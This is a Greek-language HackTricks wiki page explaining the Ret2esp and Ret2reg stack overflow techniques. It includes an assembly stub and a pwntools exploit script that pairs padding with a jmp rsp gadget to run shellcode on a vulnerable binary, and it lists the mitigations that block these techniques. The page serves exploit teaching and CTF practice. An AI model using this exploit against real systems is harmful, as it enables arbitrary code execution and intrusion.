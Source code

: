 # Ret2esp / Ret2reg

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Ret2esp**

**Επειδή ο ESP (Δείκτης Στοίβας) δείχνει πάντα στην κορυφή της στοίβας**, αυτή η τεχνική περιλαμβάνει την αντικατάσταση του EIP (Δείκτης Εντολών) με τη διεύθυνση μιας **`jmp esp`** ή **`call esp`** εντολής. Κάνοντας αυτό, ο κώδικας shell τοποθετείται ακριβώς μετά την αντικατεστημένη EIP. Όταν εκτελείται η εντολή `ret`, ο ESP δείχνει στην επόμενη διεύθυνση, ακριβώς εκεί που είναι αποθηκευμένος ο κώδικας shell.

Αν **η Τυχαία Διάταξη Χώρου Διευθύνσεων (ASLR)** δεν είναι ενεργοποιημένη στα Windows ή Linux, είναι δυνατόν να χρησιμοποιηθούν οι εντολές `jmp esp` ή `call esp` που βρίσκονται σε κοινές βιβλιοθήκες. Ωστόσο, με ενεργό [**ASLR**](../common-binary-protections-and-bypasses/aslr/), μπορεί να χρειαστεί να αναζητήσετε αυτές τις εντολές μέσα στο ευάλωτο πρόγραμμα (και μπορεί να χρειαστεί να νικήσετε [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Επιπλέον, η δυνατότητα τοποθέτησης του κώδικα shell **μετά την καταστροφή του EIP**, αντί να είναι στη μέση της στοίβας, διασφαλίζει ότι οποιεσδήποτε εντολές `push` ή `pop` που εκτελούνται κατά τη διάρκεια της λειτουργίας της συνάρτησης δεν θα παρεμβαίνουν στον κώδικα shell. Αυτή η παρέμβαση θα μπορούσε να συμβεί αν ο κώδικας shell τοποθετούνταν στη μέση της στοίβας της συνάρτησης.

### Lacking space

Αν σας λείπει χώρος για να γράψετε μετά την αντικατάσταση του RIP (ίσως μόνο μερικά bytes), γράψτε έναν αρχικό κώδικα shell `jmp` όπως:
```armasm
sub rsp, 0x30
jmp rsp
```
Και γράψτε το shellcode νωρίς στη στοίβα.

### Παράδειγμα

Μπορείτε να βρείτε ένα παράδειγμα αυτής της τεχνικής στο [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) με μια τελική εκμετάλλευση όπως:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
## Ret2reg

Ομοίως, αν γνωρίζουμε ότι μια συνάρτηση επιστρέφει τη διεύθυνση όπου είναι αποθηκευμένο το shellcode, μπορούμε να εκμεταλλευτούμε τις εντολές **`call eax`** ή **`jmp eax`** (γνωστές ως τεχνική **ret2eax**), προσφέροντας μια άλλη μέθοδο για να εκτελέσουμε το shellcode μας. Ακριβώς όπως το eax, **οποιοδήποτε άλλο καταχωρητή** που περιέχει μια ενδιαφέρουσα διεύθυνση θα μπορούσε να χρησιμοποιηθεί (**ret2reg**).

### Παράδειγμα

Μπορείτε να βρείτε ένα παράδειγμα εδώ: [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)

## Προστασίες

* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): Αν η στοίβα δεν είναι εκτελέσιμη, αυτό δεν θα βοηθήσει καθώς πρέπει να τοποθετήσουμε το shellcode στη στοίβα και να κάνουμε jump για να το εκτελέσουμε.
* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Αυτά μπορούν να κάνουν πιο δύσκολη την εύρεση μιας εντολής για να κάνουμε jump σε esp ή οποιονδήποτε άλλο καταχωρητή.

## Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
